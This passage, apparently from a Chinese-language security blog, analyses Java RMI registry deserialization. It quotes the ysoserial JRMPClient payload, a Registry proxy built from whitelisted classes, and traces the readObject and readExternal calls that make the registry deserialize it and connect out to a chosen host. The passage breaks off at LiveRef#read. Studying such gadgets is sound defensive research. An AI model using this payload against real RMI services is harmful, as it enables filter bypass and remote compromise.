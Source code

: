 
当我们调用bind方法后，会通过UnicastRef对象中存储的信息与注册中心进行通信:

![image-20241125210920955](./main.assets/rmi17.png)

这里会通过ref与注册中心通信，并将绑定的对象名称以及要绑定的远程对象发过去，注册中心在后续会对应进行反序列化

接着来看看yso中的JRMPClient：

```java
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
Registry.class
}, obj);
return proxy;
```

这里返回了一个代理对象，上面用的这些类都在白名单里，当注册中心反序列化时，会调用到RemoteObjectInvacationHandler父类RemoteObject的readObject方法（因为RemoteObjectInvacationHandler没有readObject方法），在readObject里的最后一行会调用ref.readExternal方法，并将ObjectInputStream传进去：

```
ref.readExternal(in);
```

UnicastRef#readExternal

```java
public void readExternal(ObjectInput var1) throws IOException, ClassNotFoundException {
    this.ref = LiveRef.read(var1, false);
}
```

LiveRef#read
